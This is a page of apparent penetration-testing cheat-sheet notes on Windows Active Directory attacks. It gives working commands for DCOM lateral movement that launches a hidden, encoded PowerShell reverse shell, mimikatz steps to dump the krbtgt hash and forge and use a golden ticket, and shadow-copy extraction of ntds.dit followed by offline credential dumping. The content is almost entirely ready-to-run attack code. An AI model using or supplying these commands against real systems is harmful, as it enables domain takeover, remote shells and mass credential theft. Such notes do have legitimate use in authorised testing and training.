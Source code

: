 ### DCOM

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

### Golden Ticket

1. Get the krbtgt hash

```powershell
.\mimikatz.exe
privilege::debug
#below are some ways
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::dcsync /user:krbtgt

kerberos::purge #removes any exisiting tickets

#sample command
kerberos::golden /user:sathvik /domain:evilcorp.com /sid:S-1-5-21-510558963-1698214355-4094250843 /krbtgt:4b4412bbe7b3a88f5b0537ac0d2bf296 /ticket:golden

#Saved with name "golden" here, there are other options to check as well
```

1. Obtaining access!

```powershell
mimikatz.exe #no need for highest privileges
kerberos::ptt golden
misc::cmd #we're accessing cmd
```

### Shadow Copies

```powershell
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
---

